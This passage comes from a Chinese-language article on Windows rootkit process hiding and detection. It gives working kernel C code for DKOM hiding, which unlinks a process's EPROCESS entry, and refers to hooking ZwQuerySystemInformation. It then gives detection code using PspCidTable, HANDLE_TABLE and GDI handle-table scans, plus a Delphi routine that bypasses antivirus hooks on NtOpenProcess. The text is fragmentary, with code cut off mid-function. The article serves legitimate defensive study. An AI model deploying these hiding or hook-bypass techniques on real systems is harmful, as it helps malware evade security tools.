// Hook 函数替换 ZwQuerySystemInformation
return STATUS_SUCCESS;
```

SSDT 的结构体定义这里就不再给出了。通过上面的代码可简单实现 Ring0 级指定进程的隐藏，但 CPU 的使用率可能会发生变化，因为指定进程被过滤了，实际上它还在系统中运行。细心的读者可以测试：若隐藏占据一定 CPU 时间的进程，则成功隐藏后，打开任务管理器，所有进程 CPU 占有率相加并不会等于 100%。故为了隐藏做得更加仔细，我们最好将被隐藏进程所占用的 CPU 时间全部累加到 System Idle Process 上。

## DKOM技术实现进程隐藏

直接操作内核对象，通过分析内核对象成员，过滤特定进程的内核对象结构实现进程隐藏。DKOM 技术最早由 Jamie Butler 提出，感兴趣的读者可参考文献《Hidden Processes: The Implication for Intrusion Detection》，著名的 FU rootkit 也出自 Jamie。

通过调用 PsGetCurrentProcess() 内核函数可获取当前执行线程对应进程对象 EPROCESS 结构。利用 WinDbg 工具查看其实现如下：

```asm
kd> uf nt!PsGetCurrentProcess
nt!IoGetCurrentProcess:
804ef608 64a124010000    mov eax, fs:[00000124]
804ef60e 8b4044          mov eax, [eax+0x44]
804ef611 c3              ret
```

其中偏移 fs:[00000124] 中存放了当前线程 ETHREAD 结构体地址，此地址由 KiInitialThread 函数导出。其中 ETHREAD 结构体中存在一个 ApcState 域，该值存放了对应进程的进程对象体 EPROCESS。这里不再给出调试结果，读者可通过 WinDbg 工具自行查看。

知道了如何获取进程的对象体 EPROCESS，现在需要获取 EPROCESS 的具体成员变量内容，比如是否存在一个进程链表结构 LIST_ENTRY，以及进程 ID 和进程名等成员。在 WinDbg 下键入“dt -b -v _EPROCESS”命令可获取 EPROCESS 的详细内容。获取到的结果如下：

```text
kd> dt nt!_EPROCESS
 +0x000 Pcb                : _KPROCESS
 ...
 +0x080 RundownProtect     : _EX_RUNDOWN_REF
 +0x084 UniqueProcessId    : Ptr32 Void
 ...
 +0x174 ImageFileName      : [16] UChar
 +0x088 ActiveProcessLinks : _LIST_ENTRY
```

其中下面这些成员变量是我们感兴趣的，包括进程 ID、进程名和进程链表。通过进程链表我们可以遍历所有的进程 EPROCESS 结构体，进而可过滤到待隐藏进程。可能有读者会问结构体中怎么会同时出现进程 ID 和进程名，既然存在了进程名必然对应一个进程 ID，这是错误的。实际上进程名不是唯一的，进程 ID 可不同，即多个进程 ID 可映射到同一个进程名上。故具体流程如下所示：

- 1. 定位处理器控制块（KPRCB）地址，此结构基地址在系统内核空间中锁定为 `0xffdff120`。
- 2. 定位当前线程块（ETHREAD）地址，KPRCB 中有一表项指向当前线程块，直接定位其地址可通过 `fs:[124]` 或 `0xffdff124`；ETHREAD 中包含内核线程块（KTHREAD）。
- 3. 定位当前进程块（EPROCESS）地址，在内核线程块中包含指向当前进程块的指针，利用该指针分析 EPROCESS 结构即可找到对应链表。
- 4. 根据 PID 或者进程名获得链表，确定隐藏进程的 EPROCESS 位置，调整其前后进程对应 EPROCESS 中链表结点，将隐藏进程的 EPROCESS 从链表中摘除。



具体操作时，我们可以不必定位到 KPRCB 地址然后再逐步定位。实际上通过 `PsGetCurrentProcess` 函数即可获取到 EPROCESS 地址，然后定位到 `LIST_ENTRY` 即可获取进程对象链表。代码分析实现如下：

```c
void SearchProcessNode(DWORD pid)
{
    UCHAR *currentPEP, *nextPEP;
    int currentPID = 0, flag = 0, startPID = 0, count = 0;
    UCHAR proc_name[16];
    const int HiLimit = 1048576;

    currentPEP = (UCHAR*)PsGetCurrentProcess();
    currentPID = *(unsigned long*)(currentPEP + EPROCESS_PID_OFFSET);
    getProcessName(proc_name, currentPEP + EPROCESS_OFFSET_NAME);
    startPID = currentPID;

    if (currentPID == pid) {
        modifyTaskListEntry(currentPEP);
        DbgPrint("Process name is %s PID=%d is Hidden\n", proc_name, pid);
        return;
    }

    while (startPID != currentPID || flag == 0) {
        nextPEP = getNextProcessList(currentPEP);
        currentPEP = nextPEP;
        currentPID = *(unsigned long*)(currentPEP + EPROCESS_PID_OFFSET);
        getProcessName(proc_name, currentPEP + EPROCESS_OFFSET_NAME);
        if (currentPID == pid) {
            modifyTaskListEntry(currentPEP);
            DbgPrint("Process name is %s PID=%d is Hidden\n", proc_name, pid);
            return;
        }
        count++;
        flag = 1;
        if (count >= HiLimit) return;
    }
    return;
}

UCHAR* getNextProcessList(UCHAR *current)
{
    UCHAR *next, *fLink;
    LIST_ENTRY *listEntry;
    listEntry = (LIST_ENTRY*)(current + EPROCESS_LIST_OFFSET);
    fLink = (UCHAR*)(listEntry->Flink);
    next = fLink - EPROCESS_LIST_OFFSET;
    return next;
}
```

```c
// 获取当前 LIST_ENTRY 结构体中的前一个进程对象
UCHAR *getPreProcessList(UCHAR *current)
{
    UCHAR *preHandleTable = NULL;
    UCHAR *blink = NULL;
    LIST_ENTRY *listEntry;
    listEntry = (LIST_ENTRY*)(current + PROCESS_LIST_OFFSET);
    blink = (UCHAR*)listEntry->Blink;
    preHandleTable = blink - PROCESS_LIST_OFFSET;
    return preHandleTable;
}

// 删除/隐藏进程对象结点
void hideProcess(UCHAR *h_process_cur)
{
    UCHAR *h_process_pre, *h_process_next;
    LIST_ENTRY *ListEntry_cur, *ListEntry_pre, *ListEntry_next;

    h_process_pre = getPreProcessList(h_process_cur);
    h_process_next = getNextProcessList(h_process_cur);

    // 获取当前 EPROCESS 结构体中 List_Entry 的指针地址
    ListEntry_cur  = (LIST_ENTRY*)(h_process_cur + PROCESS_LIST_OFFSET);
    ListEntry_pre  = (LIST_ENTRY*)(h_process_pre + PROCESS_LIST_OFFSET);
    ListEntry_next = (LIST_ENTRY*)(h_process_next + PROCESS_LIST_OFFSET);

    // 删除当前结点 ListEntry_cur
    ListEntry_pre->Flink = ListEntry_next;
    ListEntry_next->Blink = ListEntry_pre;

    // 使当前结点前后指针指向自身
    ListEntry_cur->Flink = ListEntry_cur;
    ListEntry_cur->Blink = ListEntry_cur;
}
```

对于 PROCESS_LIST_OFFSET、EPROCESS_PID_OFFSET 和 EPROCESS_OFFSET_NAME 三个偏移值，读者可以通过 WinDbg 调试工具键入“dt nt!_EPROCESS”命令查看对应变量的偏移值。DriverEntry 入口函数和 DriverUnload 函数可参考前面代码修改。通过上面几行代码即可实现 DKOM 方式下的进程隐藏技术……如图 5 所示。





图5

由图可知，通过 HANDLE_TABLE 确实可以获取到进程的 ID 号，且其中包含有 LIST_ENTRY 结构，满足隐藏条件，感兴趣的读者可以自行编写代码实现隐藏。

##### 进程的检测技术

对于前面通过 Hook ZwQuerySystemInformation 实现的隐藏技术，我们只需要采用 DKOM 技术即可对抗，成功检测出进程的隐藏。首先通过 PsGetCurrentProcess 函数获取当前进程的 EPROCESS 结构，然后定位到 HANDLE_TABLE 结构，根据 HANDLE_TABLE 遍历整个句柄表，枚举出每个进程 ID（包括进程名），即可对抗 Hook ZwQuerySystemInformation 技术，成功检测出隐藏进程。遍历 HANDLE_TABLE 的实现代码如下：

```c
void traverseHandles(){
    unsigned char process_name[16];
    PEPROCESS process_ptr;
    unsigned char *h_tableaddr_start, *eprocess_addr, *handle_tableaddr;
    unsigned long pid, nProc;

    process_ptr = PsGetCurrentProcess();
    eprocess_addr = (unsigned char*)process_ptr;
    handle_tableaddr = eprocess_addr + OFFSET_EPROCESS_HANDLETABLE;
    ...
}
```

```c
h_tableaddr_start = (unsigned char *)((unsigned long)handle_tableaddr);
pid = getPid(h_tableaddr_start);  nProc = 1;
getProcessName(process_name, eprocess_addr + OFFSET_PROCESS_NAME);
DbgPrint("Process id : %04d ; Process name : %s\n", pid, process_name);

// 遍历新 HANDLE_TABLE 以获取此结构体中线程 ID
handle_tableaddr = getNextEntry(h_tableaddr_start, OFFSET_HANDLE_LISTENTRY);
eprocess_addr = getNextEntry(eprocess_addr, EPROCESS_ENTRY);

while (handle_tableaddr != h_tableaddr_start) {
    pid = getPid(handle_tableaddr);
    memset(process_name, 0, sizeof(process_name));
    getProcessName(process_name, eprocess_addr + OFFSET_PROCESS_NAME);
    DbgPrint("Process id : %04d ; Process name : %s\n", pid, process_name);
    nProc++;
    handle_tableaddr = getNextEntry(handle_tableaddr, OFFSET_HANDLE_LISTENTRY);
    eprocess_addr = getNextEntry(eprocess_addr, EPROCESS_ENTRY);
}

DbgPrint("traverseHandles(): Number of Processes=%d", nProc);
```

实现结果对比如图 6 所示，进程 lsass.exe 确实躲避了任务管理器，但在 DKOM 技术面前却暴露无遗。现在我们讨论如何检测 DKOM 技术下的进程隐藏。若只是过滤了 EPROCESS 结构，则完全可以借助 HANDLE_TABLE 遍历检测出此进程。但此时 HANDLE_TABLE 的地址则不可能从 EPROCESS 结构中获取了，因为其本身都已经被隐藏了。



图6

回顾图 5 中 HANDLE_TABLE 结构体中第一个参数为 TableCode，实际上 HANDLE_TABLE 并不是真正的句柄表结构，真实的句柄表需要依据 TableCode 来定位。Windows XP 下句柄表是三层表结构，每个句柄表大小为 4KB，每个表项为一个 HANDLE_TABLE_ENTRY 结构，占 8 字节，故每个表只能存放 512 个表项。TableCode 的后两位若为 00 则为 1 级表，01 为 2 级表，02 为 3 级表。类似于内存分页机制，将固定的内存大小按每页 4KB 大小分页，映射到多级页表中。

IceSword 就利用了 TableCode 来定位 HANDLE_TABLE_ENTRY 结构，遍历此结构检测出隐藏进程。TableCode 值实际上等同于 PspCidTable 变量。PspCidTable 中存放的对象是系统中所有的进程/线程对象，其索引就是 PID 和 TID，其中存放对象体 EPROCESS 和 ETHREAD，而每个进程私有的句柄表存放的是进程对象头 OBJECT_HEADER。

实际上，进程或线程创建时，PspCreateProcess() 函数会在 PspCidTable 中以进程对象的方式创建句柄，即“Process->UniqueProcessId = ExCreateHandle(PspCidTable, &CidEntry);”。也就是说，PID 和 TID 分别是 EPROCESS 和 ETHREAD 对象在 PspCidTable 这个句柄表中的索引。用 WinDbg 查看 PsLookupProcessByProcessId() 函数的部分实现，如图 7 所示。



图7

由图可知，函数首先 push 参数 PspCidTable 地址和进程 ID，然后调用 ExMapHandleToPointer 函数实现进程对象的获取。当然，ExMapHandleToPointer 内部仍然是调用 ExpLookupHandleTableEntry()，根据指定的句柄查找相应的 HANDLE_TABLE。函数体内部的实现依旧是通过 HandleTable->TableCode 成员来判断是第几级表，故我们可以从 PspCidTable 入手，获取到此地址，然后赋值给 TableCode，根据 TableCode 来判断是哪级表，之后映射到指定的 HANDLE_TABLE_ENTRY 结构中遍历。

遍历每个对象，PspCidTable 地址的获取可以借助 `PsLookupProcessByProcessId` 来定位。在此函数中搜索关键字 `0x35f` 和 `0xe8` 即可。由图 7 可知，`0x35f` 和 `0xe8` 中间的 4 字节内容即为 PspCidTable 地址。搜索代码如下：

```c
ULONG GetPspCidTableAddr(){
    UNICODE_STRING pslookupPbP;
    PUCHAR addr, p;
    ULONG tmpAddr;
    RtlInitUnicodeString(&pslookupPbP,
        L"PsLookupProcessByProcessId");
    addr=(PUCHAR)MmGetSystemRoutineAddress(&pslookupPbP);
    for(p = addr; p < addr + PAGE_SIZE; p++){
        if((*((PUSHORT)p)==0x35ff)&&(*(p+6)==0xe8))
            tmpAddr = *(PULONG)(p+2);
        return tmpAddr;
    }
    return 0;
}
```

工具的主要功能即检测隐藏进程。其在 Ring3 级实现进程检测。Blacklight 启动时循环检测从 `0x0` 到 `0x41D` 之间的所有有效 PID，并对每一个可能的 PID 调用 `OpenProcess` 来检测进程是否存在；如果 `OpenProcess` 成功返回，Blacklight 就存储其进程信息并继续循环。一旦所有可能 PID 都被循环检测，Blacklight 则对 PID 列表和 `CreateToolhelp32Snapshot` 返回的列表进行比对，两张列表之间的差异就表示存在隐藏进程。

针对 `TableCode` 的判断、如何进行多表级映射，感兴趣的读者可参考：`http://www.debugman.com/read.php?tid=830&page=1&toread=1`。作者曾指出通过这种方式寻找 PspCidTable 并不稳定，因为即使是编写内核时作了一点点编译器优化，上面的方法也可能会失败。作者同时给出了解决方案，建议采用 `KDDEBUGGER_DATA32` 结构，此结构中存储了大量未导出变量，其中就包括 PspCidTable 地址。

##### 小结

一直以来，Rootkit 都试图抹掉进程在系统中留下的痕迹，同时干扰进程检测函数的正常工作，以达到隐匿运行中的代码。但是运行于系统中的进程总是和系统有着各种联系（如打开的句柄等）。进程检测技术希望不断发掘出这些关联，以此获得真实的进程列表，同时进程检测技术也在向不依赖操作系统这一目标努力。总之，进程的隐藏和检测是在攻与防的对抗中不断向前发展。伴随着 DKOM 技术的提出，已经演变出了针对进程隐藏与检测的各种 Rootkit。比较著名的检测工具如 Blacklight、IceSword 和 Rootkit Revealer。当然，DKOM 技术的提出并不只是推进了进程的隐藏与检测，还包括文件及目录的隐藏、驱动的隐藏与检测、进程访问令牌的 Hook 技术等。随着更多高新技术的提出，进程的隐藏与检测一定还会向前继续发展。

除了利用 PspCidTable 来检测进程之外，芬兰安全公司 F-Secure 研发出的 Blacklight，冰刃、XueTr、Rootkit Unhooker 等 AntiRootkit 工具中有一个很好的模块，可以进行进程检测。

- 前置知识：Delphi
- 关键词：Ring3、GDI、检测进程

#### Ring3 下通过查询 GDI 句柄表来检测进程

文／图 liuke_blue


……进行进程检测，虽然一些病毒通过内核函数 Hook、DKOM（直接内核对象操作技术）等方式来隐藏进程，从而逃避任务管理器的检测，但是无法逃脱这些 AntiRootkit 工具的“法眼”。目前 AntiRootkit 工具检测进程常见的方法有：Hook `KswapContext` 函数来检测进程、查询 `EPROCESS` 结构来检测进程、查询 `PspCidTable` 这个存放 Windows 系统中所有进程线程的句柄表来检测进程等。但是这些方法都需要在内核层下，有没有在应用层下也像上面所提到的 AntiRootkit 工具一样，可以检测到所有的进程，包括被隐藏的进程？答案是有的，下面我给大家介绍一种在 Ring3 下通过查询 GDI 对象句柄表来检测进程的方法。

Windows 的图形系统分为三个部分：客户端的 DLL `GDI32.DLL`、内核引擎 `Win32k.sys`、各种图形驱动程序。Windows 把 GDI Objects 都存储在一个系统的句柄表里，GDI 句柄表存储在内核模式地址空间中，使图形驱动可以很容易地访问它；在用户模式地址空间也创建了 GDI 句柄表的快照，可以在用户模式下对 GDI 句柄表进行只读访问。下面是 GDI 句柄表中表项的数据结构：

```c
typedef struct _GDITableCell
{
    void* pKernel;      // 内核模式对象的指针
    unsigned short nProcess;
    unsigned short nCount;
    unsigned short nUpper;
    unsigned short nType;
    void* pUser;        // 用户模式对象的指针
} GDITableCell, *PGDITableCell;
```

其中 `nProcess` 是指向进程 ID。由于 Rootkit 隐藏进程，没有去修改内核中所存放的 GDI 句柄表，因此通过查找这张 GDI 句柄表的表项中 `nProcess` 可以检测到所有的进程，包括隐藏的进程。通过 `GdiQueryTable` 这个未文档化的函数可以找到用户模式地址空间存放的 GDI 句柄表的快照。程序主要代码如下：

```pascal
// 通过查询GDI句柄表检测所有进程
function TForm1.CheckForHiddenProcess: BOOL;
var
  hGDI: HMODULE;
  ProcAdress: TFarProc;
  dwVersion: DWORD;
  WindowsVer: INTEGER;
```

```pascal
pGDITable: PGDITableCell;
cell: TGDITableCell;
i, j, k: Integer;
ifFound: BOOL;
pI: TProcessInfo;
szProcName: string;
begin
  hGDI := LoadLibrary('GDI32.dll');
  ProcAdress := GetProcAddress(hGDI, 'GdiQueryTable');
  if (ProcAdress = nil) then
  begin
    MessageBox(0, 'Error finding address of GdiQueryTable', '提示', MB_OK + MB_ICONWARNING);
    Result := FALSE;
    Exit;
  end;

  GetMem(pGDITable, MAXGDIHANDLE * SizeOf(TGDITableCell));
  pGDITable := PGDITableCell(TProc(ProcAdress)());

  if (pGDITable = nil) then
  begin
    MessageBox(0, 'Error accessing GDI Table', '提示', MB_OK + MB_ICONWARNING);
    Result := FALSE;
    Exit;
  end;

  dwVersion := GetVersion;
  WindowsVer := BYTE(LOWORD(dwVersion));
  arrayLen := 0;
  Inc(arrayLen);
  SetLength(procInfo, arrayLen);

  for i := 0 to MAXGDIHANDLE - 1 do
  begin
    cell := PGDITableCell(DWORD(pGDITable) + i * SizeOf(TGDITableCell))^;
    if (DWORD(cell.pKernel) < $80000000) then
      Continue;
    j := 0;
    ifFound := FALSE;
    for j := 0 to Length(procInfo) - 1 do
    begin
      if (WindowsVer > 5) then
      begin
        if (procInfo[j].ProcessId = cell.nProcess) then
          ifFound := TRUE;
      end
      else
      begin
        if (procInfo[j].ProcessId = cell.nCount) then
          ifFound := TRUE;
      end;
    end;
  end;
end;
```

```pascal
if (not ifFound) then
begin
  if (WindowsVer >= 5) then
  begin
    pI.ProcessId := cell.nProcess;
  end
  else
  begin
    pI.ProcessId := cell.nCount;
  end;
  // 增加数组中的记录
  Inc(arrayLen);
  SetLength(procInfo, arrayLen);
  procInfo[arrayLen - 1] := pI;
end;
...
ListView1.Clear;
ListView1.Items.BeginUpdate;
for k := 0 to Length(procInfo) - 1 do
begin
  with ListView1.Items.Add do
  begin
    GetProcessName(procInfo[k].ProcessId, szProcName, MAX_PATH);
    Caption := Trim(ExtractFileName(szProcName));
    SubItems.Add(Trim(IntToStr(procInfo[k].ProcessId)));
    SubItems.Add(szProcName);
    if (IsHideProcess(procInfo[k].ProcessId) and (procInfo[k].ProcessId <> 8)) then
      SubItems.Add('隐藏')
    else
      SubItems.Add('正常');
  end;
end;
ListView1.Items.EndUpdate;
```

```pascal
var
  uReturn: ULONG;
  NumOfHandle: ULONG;
  pBuffer: PCHAR;
  pOneEprocess: PVOID;
  cid: TCLIENT_ID;
  status: NTSTATUS;
  oa: TOBJECT_ATTRIBUTES;
  pbi: TPROCESS_BASIC_INFORMATION;
  ...
begin
  cbBuffer := 4000;
  hModuleNtdll := LoadLibrary('ntdll.dll');
  pFnZwQueryInformationProcess := GetProcAddress(hModuleNtdll, 'ZwQueryInformationProcess');
  pFnNtOpenProcess := GetProcAddress(hModuleNtdll, 'NtOpenProcess');
  pFnZwQuerySystemInformation := GetProcAddress(hModuleNtdll, 'ZwQuerySystemInformation');
  pFnZwDuplicateObject := GetProcAddress(hModuleNtdll, 'ZwDuplicateObject');
  pFnZwClose := GetProcAddress(hModuleNtdll, 'ZwClose');

  oa.Length := 24;
  oa.RootDirectory := 0;
  oa.ObjectName := nil;
  oa.Attributes := 0;
  oa.SecurityDescriptor := nil;
  oa.SecurityQualityOfService := nil;

  if bOpenIt = TRUE then
  begin
    cid.UniqueProcess := THANDLE(ProcessId);
    cid.UniqueThread := 0;
    status := FNtOpenProcess(@hProcessToRet, dwDesiredAccess, @oa, @cid);
    if (NTSTATUS(status) >= 0) then
      Result := hProcessToRet;
  end;
```

有一些杀毒软件和 AntiRootkit 工具 Hook `NtOpenProcess` 函数，因此想通过 `GetModuleFileNameExA` 函数来获取这些软件的进程完整路径就行不通。为了绕过这些软件的 Hook，因此自己编写一个 `My_OpenProcess` 函数来代替 `OpenProcess` 函数，最终获得指定进程的句柄，代码如下：

```pascal
// 自己写的 My_OpenProcess 来获取进程句柄
function My_OpenProcess(dwDesiredAccess: DWORD; bInherit: LongBool; ProcessId: Cardinal; bOpenIt: LongBool): THANDLE;
```

```pascal
Exit;
end;
end;
repeat
  pBuffer := PCHAR(GlobalAllocPtr(GMEM_FIXED + GMEM_ZEROINIT, cbBuffer));
  if pBuffer = nil then
  begin
    Result := 0;
    Exit;
  end;

  status := TZwQuerySystemInformation(
    FnZwQuerySystemInformation(SystemHandleInformation, pBuffer, cbBuffer, @uReturn)
  );

  if (NTSTATUS(status) = STATUS_INFO_LENGTH_MISMATCH) then
  begin
    GlobalFreePtr(pBuffer);
    cbBuffer := cbBuffer * 2;
  end;
until (status <> STATUS_INFO_LENGTH_MISMATCH);

NumOfHandle := PULONG(pBuffer)^;
h_info := PSYSTEM_HANDLE_TABLE_ENTRY_INFO(ULONG(pBuffer) + 4);

i := 0;
while (i < NumOfHandle) do
begin
  if (bOpenIt) then
  begin
    if (h_info.ObjectTypeIndex = 5) then
    begin
      cid.UniqueProcess := h_info.UniqueProcessId;
      status := FNtOpenProcess(@hProcessToDup, PROCESS_DUP_HANDLE, @oa, @cid);

